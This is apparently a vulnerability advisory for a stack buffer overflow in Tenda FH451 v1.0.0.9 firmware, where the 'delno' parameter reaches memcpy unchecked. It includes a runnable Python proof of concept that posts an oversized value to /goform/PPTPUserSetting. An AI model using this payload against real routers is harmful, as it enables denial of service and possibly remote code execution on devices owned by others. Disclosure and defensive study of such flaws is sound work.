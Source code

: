 # Tenda FH451 fromPptpUserSetting
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the delno parameter in the fromPptpUserSetting function.

### Vulnerability details
In function fromPptpUserSetting line 18, it reads in a user-provided parameter `delno`. The variable `Var` is assigned to the variable `Var_1`, and the variable `Var_1` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `dest`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/10.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/PPTPUserSetting"

data = {
    "delno": "a" * 1000 + ";b"
}

response = requests.post(url, data=data)
print(response.text)
```